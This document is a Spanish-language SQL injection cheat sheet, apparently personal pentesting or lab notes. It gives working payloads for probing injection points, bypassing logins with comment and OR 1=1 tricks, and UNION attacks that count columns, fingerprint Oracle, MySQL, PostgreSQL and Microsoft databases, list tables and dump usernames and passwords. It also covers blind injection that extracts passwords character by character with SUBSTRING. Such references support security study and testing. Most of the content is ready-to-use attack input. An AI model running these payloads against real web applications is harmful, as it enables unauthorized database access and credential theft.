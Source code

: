 # SQL INJECTION

## IDENTIFICAR LA VULNERABILIDAD

' | *simbolo comun para testear si existe SQLi o no.*

" | *simbolo comun para testear si existe SQLi o no.*

' -- | *simbolo comun para testear si existe SQLi o no.*

## COMENTARIOS "bypass"

-- | *dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | *dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

## LOGIC BYPASS 

' OR 1=1-- | *sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.* \
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | *cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.*

## UNION ATTACK

**PRE-REQ:** *numero de columnas y data type de cada columna*

#### COMO SABER EL NUMERO DE COLUMNAS ?

**METODO_1:** ' ORDER BY 1-- \
**METODO_2:** ' UNION SELECT NULL--

#### COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL-- \
' UNION SELECT NULL,'a',NULL,NULL-- | >> *se tiene que hacer iterativo cambiando los campos para saber que tipo son.*

> Oracle

' UNION SELECT 'a','a' from DUAL--

#### IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

**Microsoft** >> SELECT @@version \
**MySQL** >> SELECT @@version \
**Oracle** >> SELECT banner FROM v$version | SELECT version FROM v$instance \
**PostgreSQL** >> SELECT version() 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Microsoft](https://learn.microsoft.com/en-us/sql/relational-databases/system-information-schema-views/tables-transact-sql?view=sql-server-ver16) | [MySQL](https://dev.mysql.com/doc/refman/8.0/en/information-schema-table-reference.html) | [PostgreSQL](https://www.postgresql.org/docs/current/infoschema-tables.html)] 

'UNION SELECT [columns] FROM information_schema.tables \
'UNION SELECT [columns] FROM information_schema.columns \
'UNION SELECT [columns] FROM information_schema.columns WHERE table_name = 'users_qmwbqm' 

#### LISTAR TABLAS DE LA BASE DE DATOS | [[Oracle](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)] 

'UNION SELECT [columns] FROM all_tables \
'UNION SELECT [columns] FROM all_tab_columns WHERE table_name = 'USERS' 

#### MOSTRAR INFORMACION DE OTRAS TABLAS 

' UNION SELECT [columns] FROM [table_name]-- \
' UNION SELECT username, password FROM users--

#### MOSTRAR MULTIPLES VALORES EN UNA MISMA COLUMNA [CONCATENACION]

    NOTA: Importante definir la columna que sea formato string.

~: Separador

**ORACLE: ||** \
ex: 'string'||'string' \
' UNION SELECT username || '~' || password FROM users-- 

**MICROSOFT: +** \
ex: 'string'+'string' 

**POSTGRESQL: ||** \
ex: 'string'||'string' 

**MySQL: [ ] "space"** \
ex: 'string' 'string'

## BLIND SQL INJECTION

    NOTA: importante analizar el comportamiento del site. 

1. validar la vulnerabilidad con una consulta booleana
2. validar existencia de tabla
3. validar campos
4. enumerar el tamano del campo (length)
5. enumerar el contenido de un campo (caracteres)

Validar la existencia de una tabla por medio de una consulta booleana, limitando el resultado para no romper la consulta.

' AND SELECT '[value]' FROM [table_name] LIMIT 1)='[value]'--
' AND SELECT 'admin' FROM users LIMIT 1)='[admin]'--

Una vez con el nombre de la tabla, se puede consultar fields especificos cambiando el query y agregando la funcion WHERE:

' AND SELECT [field] FROM [table_name] WHERE [field]='[value]')='[value]'--
' AND SELECT username FROM users WHERE username='admin')='admin'--

_ENUMERAR EL TAMANO DE UN CAMPO ?

' AND SELECT [field_name] FROM [table_name] WHERE [field_name]='[value]' AND LENGTH(field_name)>1)='value'--
' AND SELECT username FROM users WHERE username='admin' AND LENGTH(password)>1)='admin'--

    NOTA: Es necesario iterar el numero de posicion hasta no tener expected responses, de esa manera se obtiene la 
    cantidad de caracteres.

_COMO ENUMERAR EL CONTENIDO "STRING" DE UN CAMPO ?

--> Funcion SUBSTRING

El primer numero, por ejemplo, "4", es la posicion a iterar. el segundo numero es a una sola posicion.

**Oracle:**	SUBSTR('string', 4, 1) \
**Microsoft:**	SUBSTRING('string', 4, 1) \
**PostgreSQL:**	SUBSTRING('string', 4, 1) \
**MySQL:**	SUBSTRING('string', 4, 1)

' AND SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--

    NOTA: Por ejemplo para iterar una posible contrasena se debe cambiar la posicion y el valor final, en este caso el 
    numero "1" y la letra "a".




